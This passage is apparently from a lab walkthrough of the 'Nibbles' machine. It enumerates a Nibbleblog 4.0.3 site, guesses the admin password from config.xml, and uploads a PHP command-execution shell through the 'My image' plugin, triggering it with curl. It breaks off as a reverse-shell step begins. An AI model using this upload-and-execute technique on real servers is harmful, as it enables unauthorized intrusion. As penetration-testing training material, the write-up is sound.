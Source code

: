 Output:

```xml
<config>
  <name type="string">Nibbles</name>
  <slogan type="string">Yum yum</slogan>
</config>
```

The name `Nibbles` is used multiple times, hinting it might be the password.

<mark style="color:green;">**Summary of Findings**</mark>

1. Nmap scan reveals Apache server on port 80.
2. HTML comments and manual browsing indicate Nibbleblog.
3. `whatweb` and Gobuster reveal technologies and directories.
4. `README` confirms Nibbleblog version 4.0.3.
5. Manual exploration of directories confirms admin username.
6. `config.xml` hints at the admin password being `nibbles`.

**Next Steps**

With the username `admin` and the potential password `nibbles`, we can attempt to log in and use the identified file upload vulnerability to gain further access. This process highlights the importance of thorough enumeration and analysis in web penetration testing.

***

## <mark style="color:red;">Initial Foothold</mark>

<mark style="color:green;">**Exploiting the Nibbleblog Upload Vulnerability**</mark>

1. **Access the Admin Portal:**
   * After gaining access to the Nibbleblog admin portal using the credentials `admin:nibbles`, navigate through the various sections of the portal to identify potential attack vectors.
2. **Plugins Section:**
   * The Plugins section, particularly the "My image" plugin, allows image uploads. We can attempt to upload a PHP script disguised as an image to gain code execution on the server.
3. **Upload PHP Script:**
   *   Create a PHP script to test for code execution:

       ```php
       <?php system('id'); ?>
       ```
   * Save the script as `image.php` and upload it using the "My image" plugin.
4. **Check Upload Location:**
   * The file might be uploaded to a specific directory, such as `/nibbleblog/content/private/plugins/my_image/`. Verify the upload location by checking the directory listing or brute-forcing with tools like Gobuster if necessary.
5. **Execute the Script:**
   *   Access the uploaded PHP script via a web browser or cURL:

       {% code overflow="wrap" %}
       ```bash
       curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php
       ```
       {% endcode %}
   * This should return the output of the `id` command, confirming code execution.
6. **Get a Reverse Shell:**
   *   Modify the PHP script to initiate a reverse shell. Replace `<ATTACKING IP>` with your IP address and `<LISTENING PORT>` with your chosen port:
